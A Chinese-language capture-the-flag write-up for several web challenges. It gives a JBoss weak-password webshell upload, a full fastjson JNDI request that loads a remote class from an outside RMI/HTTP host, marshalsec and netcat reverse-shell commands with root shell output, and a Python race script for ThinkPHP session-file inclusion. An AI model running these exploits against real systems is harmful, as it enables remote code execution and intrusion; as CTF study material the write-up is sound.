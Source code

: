 # Old But A Little New

一个JBOSS的环境，查了一下，发现了**JBoss6.x Administration Console 弱口令getshell**这个可以打。

用弱密钥admin,admin登录admin console，然后点击web application (war)s，上传一个war包：

![image-20210925135253113](2021长安杯-高校组-Web.assets/image-20210925135253113.png)

然后getshell即可：

```
http://5111690b.yunyansec.com/shell/1.jsp?pwd=feng&cmd=cat /flag
```





# soeasy

进入网页显示：

```json
{
	"name":"from zero to one"
}
```

尝试post穿json格式的name，发现内容成功回显，但是试了试不是SSTI。但是又尝试了报错：

![image-20210925141710936](2021长安杯-高校组-Web.assets/image-20210925141710936.png)



很明显的`SpringBoot`的error页面了。既然是`Java`的`Json`，大概率得是`fastjson`了，直接打就打通了，具体可以上网上查fastjson的攻击方式即可：

```java
POST / HTTP/1.1
Host: 14ac75ae.yunyansec.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/json
Content-Length: 265

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://118.31.168.198:39654/Exploit",
        "autoCommit":true
    }
}
```

```java
root@iZbp14tgce8absspjkxi3iZ:~/ctf/fastjson# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://118.31.168.198:39343/#Exploit" 39654
* Opening JRMP listener on 39654
Have connection from /113.201.14.253:59676
Reading message...
Is RMI.lookup call for Exploit 2
Sending remote classloading stub targeting http://118.31.168.198:39343/Exploit.class
Closing connection


```

```java
root@iZbp14tgce8absspjkxi3iZ:~/ctf/fastjson# python3 -m http.server 39343
Serving HTTP on 0.0.0.0 port 39343 (http://0.0.0.0:39343/) ...
113.201.14.253 - - [25/Sep/2021 14:15:36] "GET /Exploit.class HTTP/1.1" 200 -

```

```java
root@iZbp14tgce8absspjkxi3iZ:~# nc -lvvp 39655
Listening on [0.0.0.0] (family 0, port 39655)
Connection from [113.201.14.253] port 39655 [tcp/*] accepted (family 2, sport 59160)
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@652ebb7c22f5:/# ls
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
root@652ebb7c22f5:/# cat /flag
cat /flag
flag{22081ab1ee9d923e70d1f88d4892ecb1}
root@652ebb7c22f5:/#

```





# DaLaBengBa

www.zip有源码泄露，?s=1知道是thinkphp3.2.3：

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($doge=''){
        if(preg_grep('/flag|Home|Common\/21/i',$doge)){
            die("<dialog open>Get Out Hacker！</dialog>");
        }else{
            $this->assign($doge);
            $this->display();
        }
    }
}
```

佛了。。。长安杯真就复现杯。。。复现一下tp3.2.3的那个模板渲染的rce。ban了一些东西，利用session文件包含即可：

```python
import io
import sys
import requests
import threading

host = 'http://a297c63a.yunyansec.com/'
sessid = 'vrhtvjd4j1sd88onr92fm9t2sj'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php echo md5('1');echo file_get_contents('flag.php');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?doge[_filename]=/tmp/sess_{sessid}')
        # print(response.text)
        if 'c4ca4238a0b923820dcc509a6f75849b' not in response.text:
            print('[+++]retry')
            #print(response.text)
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)
```



# asuka

同上那个JBOSS...





